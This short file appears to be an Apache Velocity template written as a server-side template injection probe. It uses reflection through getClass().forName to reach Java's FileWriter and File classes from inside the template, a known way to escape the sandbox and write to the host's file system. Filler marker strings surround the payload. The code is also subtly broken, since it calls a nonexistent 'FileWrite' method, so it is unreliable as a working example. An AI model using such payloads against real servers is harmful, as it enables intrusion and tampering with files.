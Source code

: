 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($ab=$e.getClass().forName("java.io.File"))
#set ($b=$a.FileWrite($ab))
$a
$ab
$b
$monkey
